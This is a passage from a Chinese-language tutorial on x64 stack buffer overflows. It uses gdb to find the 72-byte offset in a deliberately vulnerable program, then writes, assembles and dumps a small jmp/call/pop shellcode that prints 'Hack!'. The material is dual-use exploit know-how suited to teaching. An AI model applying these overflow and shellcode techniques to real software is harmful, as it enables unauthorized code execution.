     Breakpoint 1, main () at victim.c:3
    3   int main() {
    => 0x0000000000400576 <main+0>: 55  push   rbp
       0x0000000000400577 <main+1>: 48 89 e5    mov    rbp,rsp
       0x000000000040057a <main+4>: 48 83 ec 40 sub    rsp,0x40
    (gdb) 


此时程序停留在main函数的第一条指令处，输入`p &name[0]`和`x/gx $rsp`分别查看name的起始指针和此时的栈顶指针rsp。

    (gdb) p &name[0]
    $1 = 0x7fffffffe100 "\001"
    (gdb) x/gx $rsp
    0x7fffffffe148: 0x00007ffff7a54b45
    (gdb) 


得到name的起始指针为`0x7fffffffe100`、此时的栈顶指针rsp为`0x7fffffffe148`，name到rsp之间一共0x48（也就是72）个字节，这和之前的分析是一致的。

下面来写指令的机器码，首先写出汇编代码：

    [section .text]
            global _start

    _start:
            jmp END
    BEGIN:
            mov rax, 1
            mov rdi, 1
            pop rsi
            mov rdx, 5
            syscall

            mov rax, 0x3c
            mov rdi, 0
            syscall
    END:
            call BEGIN
            DB "Hack!"


这段程序和第一节的`Hello-x64`基本一样，不同之处在于巧妙的利用了`call BEGIN和pop rsi`获得了字符串“Hack”的地址、并保存到`rsi`中。将以上代码保存为`shell.asm`，编译运行一下：

    $ nasm -f elf64 shell.asm
    $ ld -s -o shell shell.o
    $ ./shell
    Hack!


然后用`objdump`程序提取出机器码：

    $ objdump -d shell -M intel
    ...
    0000000000400080 <.text>:
      400080:   eb 1e                   jmp    0x4000a0
      400082:   b8 01 00 00 00          mov    eax,0x1
      400087:   bf 01 00 00 00          mov    edi,0x1
      40008c:   5e                      pop    rsi
      40008d:   ba 05 00 00 00          mov    edx,0x5
      400092:   0f 05                   syscall 
      400094:   b8 3c 00 00 00          mov    eax,0x3c
      400099:   bf 00 00 00 00          mov    edi,0x0
      40009e:   0f 05                   syscall 
      4000a0:   e8 dd ff ff ff          call   0x400082
      4000a5:   48 61                   rex.W (bad) 
      4000a7:   63 6b 21                movsxd ebp,DWORD PTR [rbx+0x21]
